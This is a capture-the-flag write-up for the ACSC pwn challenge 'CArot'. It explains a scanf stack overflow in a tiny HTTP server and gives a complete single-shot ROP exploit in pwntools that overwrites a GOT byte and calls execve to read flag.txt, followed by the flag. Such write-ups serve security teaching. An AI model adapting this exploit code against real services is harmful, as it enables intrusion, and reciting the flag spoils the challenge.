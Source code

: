 # CArot [pwn/320]

When dealing with proxy, it is often the case that you only have one "shot".

`nc 167.99.78.201 11451`

**Files**: `carot.tar.gz`:
```sh
$ tar ztf carot.tar*
distfiles/
distfiles/run_carot.sh
distfiles/run_proxy.sh
distfiles/xinetd_proxy_conf
distfiles/proxy.py
distfiles/libc-2.31.so
distfiles/carot.c
distfiles/carot
distfiles/xinetd_carot_conf
```
libc id is `libc6_2.31-0ubuntu9.2_amd64`

The remote service runs `proxy.py`, a python script that, roughly speaking, takes in <=4096 bytes from the user before throwing them all to `./carot`.

`carot` itself is a very, very simple HTTP binary server. Example usage:
```
$ ./carot <<EOF
> GET /index.html HTTP/1.1
>
> EOF
HTTP/1.0 200 OK
Content-Type: text/html

<html><head></head><body>It works!</body></html>
```
The main bug for `carot` is incredibly trivial and obvious by reading the source:
```c
#define BUFFERSIZE 512
char* http_receive_request() {
  ...
  char buffer[BUFFERSIZE] = {};
  scanf("%[^\n]", buffer);
  getchar();

  if (memcmp(buffer, "GET ", 4) != 0) return NULL;
  ...
}
int main() {
  setbuf(stdout, NULL);
  while (1) {
    char* fname = http_receive_request();
    ...
  }
}
```
The first line of input produces a buffer overflow very, very easily (512 < 4096), and also returns almost immediately so long as `GET ` isn't at the start of the input string.

The main challenge is in obtaining RCE using a single burst of input (the input _can_ contain multiple newlines, but it must all be sent before any bytes are received from stdout). This means no printing leaks & calculating libc addresses within pwntools.

## Solving
```python
from pwnscripts import *
context.libc = 'libc-2.31.so'
context.binary = 'carot'
r = remote('167.99.78.201', 11451)
```
There are about a hundred million ways to solve this challenge. Most of them center around the same general structure, though:
1. get a libc address to a known, writable location. Some people used the `stdout` pointer already available, but on my part, I copied an address from the GOT table to bss.
2. edit it to point to somewhere useful. This can mean pointing it to `system`, `execve`, a `one_gadget`, or (on my part) a `syscall` instruction.
3. put string arguments on .bss and call the libc address. Most people did something like `system("cat f*")`, but I ended up using `sys_execve` because I couldn't figure out a smart way to calculate the address of `system()/execve()/one_gadget` without bruteforcing (which you can do with `add` gadgets).

To get a libc address, I used a `mov rax, qword ptr [rbp-8]` and a `mov dword ptr [rbp-0xc], eax` gadget:

```python
POINTER = 0x602100 # where the libc address will be stored
R = ROP(context.binary)
R.raw(b'a'*0x210)
def move8(dst, src):  # must begin rop at pop rbp; ret
    DEREF_WRITE = 0x4008f1 # mov dword ptr [rbp - 0xc], eax; add rsp, 0x10; pop rbp; ret;
    DEREF_READ  = 0x400b7d # mov rax, qword ptr [rbp - 8]; add rsp, 0x10; pop rbp; ret;
    for offset in [0,4]:
        R.raw(src+8+offset) # rbp
        R.raw(DEREF_READ)
        R.raw(b'a'*0x10)    # padding
        R.raw(dst+12+offset)# rbp
        R.raw(DEREF_WRITE)
        R.raw(b'a'*0x10)    # padding
move8(POINTER, context.binary.got['getchar'])
```
Then, I used `scanf("%hhd")` to overwrite the last byte of `getchar()` to point to a syscall instruction:
```python
def scanf(*args): R.call(context.binary.sym.__isoc99_scanf, args)
FORMAT_LINE = 0x4012f0 # pointer to "[^\n]" in the binary
FORMAT_CHAR = POINTER+8 # pointer to "%hhd", which will be written later
COMMAND = FORMAT_CHAR+0x10 # pointer to a shell executable. I will use /bin/cat
ARGUMENT = COMMAND+0x10 # pointer to command's argument. Here it is "flag.txt".
SCRATCH = ARGUMENT+0x10 # space to dump miscellaneous data
ARGS = POINTER+0x100 # to store argv[]
R.raw(0) # rbp
scanf(FORMAT_LINE, FORMAT_CHAR) # Write "%hhd%*c" to bss
scanf(FORMAT_CHAR, POINTER) # overwrite getchar to point to syscall
```
This is accompanied with appropriate calls to r.sendline() later:
```python
payload = R.chain()
assert b'\n' not in payload
r.sendline(payload)   
r.sendline(b"%hhd%*c")  # first scanf call
r.sendline(b'\xc9')     # second scanf
```
After that, I fill writable memory with arguments to form `"/bin/cat flag.txt"`:
```python
scanf(FORMAT_LINE, COMMAND) # write /bin/cat somewhere
R.getchar()
R.call(R.ret)
scanf(FORMAT_LINE, ARGS)    # write argv somewhere
R.getchar()
R.call(R.ret)
scanf(FORMAT_LINE, ARGUMENT)# write argv[1] == "flag.txt"
R.getchar()
R.call(R.ret)

# ... (omitted code)

r.sendline(b'/bin/cat')
r.sendline(fit(COMMAND, ARGUMENT, 0))
r.sendline(b'flag.txt')
```
And finally, I make a call to execve:
```python
scanf(FORMAT_LINE, SCRATCH) # write a string where len(SCRATCH) == 59 == SYS_execve
R.strlen(SCRATCH)   # this will set rax to 0x3b.
R.ret2csu(edi=COMMAND, rsi=ARGS, rdx=0, call=POINTER)

# ...

r.sendline(b'a'*59)
r.sendline(b'')
print(r.recvline())
```

`ACSC{buriburi_1d3dfb9bf7654412}`
